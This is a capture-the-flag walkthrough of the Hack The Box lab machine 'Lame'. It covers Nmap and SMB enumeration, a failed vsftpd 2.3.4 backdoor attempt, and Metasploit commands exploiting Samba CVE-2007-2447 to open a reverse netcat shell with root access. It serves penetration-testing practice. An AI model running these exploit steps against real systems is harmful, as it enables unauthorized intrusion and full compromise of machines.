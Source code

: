 ```yaml
---
title: "Lame"
tags:
  - Easy
  - Linux
  - metasploit
  - vsftpd
  - samba
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.3 |  | [Lame](https://app.hackthebox.com/machines/lame) |  |

---

## Enumeration
---
### Nmap
---
We began with a full port scan and service enumeration using Nmap:

```
nmap -T4 -p- -sC -sV 10.10.10.3

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
...
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
...
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap reveals `vsFTPd 2.3.4` , `OpenSSH` and `Samba` running on the target server. 

### FTP
---
The FTP server is configured to allow for anonymous login. Login was successful with the username anonymous and an empty password, but there were no files available for enumeration:

```
ftp 10.10.10.3   

Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||7124|).
150 Here comes the directory listing.
226 Directory send OK.
```

Does this version of the service have vulnerabilities? Indeed, it does. The backdoor vulnerability was assigned [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) and an exploit was found in `Metasploit`.

```
Matching Modules
================

#  Name                                  Disclosure Date  Rank       Check  Description
-  ----                                  ---------------  ----       -----  -----------
0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```

We ran the module, but the exploit failed to create a session:

```
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 10.10.10.3
RHOST => 10.10.10.3

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

We move on to the other services for potential exploitations.

### SMB
---
We enumerate the `smb` service using `smbclient`:

```
smbclient -N -L \\\\10.10.10.3\\  

Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
```

`smbclient` reveals that Samba 3.0.20 is running on the target. We have access to the `tmp` share and do not see anything of interest:

```
smbclient -N \\\\10.10.10.3\\tmp

Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jan  4 17:10:33 2025
  ..                                 DR        0  Sat Oct 31 03:33:58 2020
  .ICE-unix                          DH        0  Sat Jan  4 16:08:11 2025
  vmware-root                        DR        0  Sat Jan  4 16:08:54 2025
  .X11-unix                          DH        0  Sat Jan  4 16:08:40 2025
  .X0-lock                           HR       11  Sat Jan  4 16:08:40 2025
  5532.jsvc_up                        R        0  Sat Jan  4 16:09:18 2025
  vgauthsvclog.txt.0                  R     1600  Sat Jan  4 16:08:10 2025

                7282168 blocks of size 1024. 5386548 blocks available
```

## Foothold
---

We use found vulnerability for this version of Samba using `searchsploit` and confirm the its module in `Metasploit`:

```
searchsploit "Samba 3.0.20"

-------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                        |  Path
-------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - `Username` map script` Command Execution (Metasploit)      | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                 | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                         | linux_x86/dos/36741.py
-------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

msf6 > search "Samba 3.0.20"

Matching Modules
================

#  Name                                Disclosure Date  Rank       Check  Description
-  ----                                ---------------  ----       -----  -----------
0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```

According to NIST, [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) stems from the MS-RPC functionality in `smbd` in Samba 3.0.0 through 3.0.25rc3. Remote attackers may execute arbitrary commands via shell metacharacters involing the `SamrChangePassword` function when the `username map script` option is enabled in `smb.conf`. Remote authenticated users may execute commands via shell metacharacters involving other MS-RPC functions in the remote printer and file share management.

We used Metasploit to exploit this vulnerability and obtained root privileges:

```
msf6 > use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set LHOST tun0
msf6 exploit(multi/samba/usermap_script) > set LPORT 443
msf6 exploit(multi/samba/usermap_script) > run
                                                                             
[*] Started reverse TCP handler on <Your_IP>:443                            
[*] Command shell session 1 opened (<Your_IP>:443 -> 10.10.10.3:36651) at 2025-01-04 18:22:17 -0500
                                                                             
id                                                                           
uid=0(root) gid=0(root)   
```

The user flag can be found at `/home/makis/user.txt`, and the root flag can be found at
`/root/root.txt`.
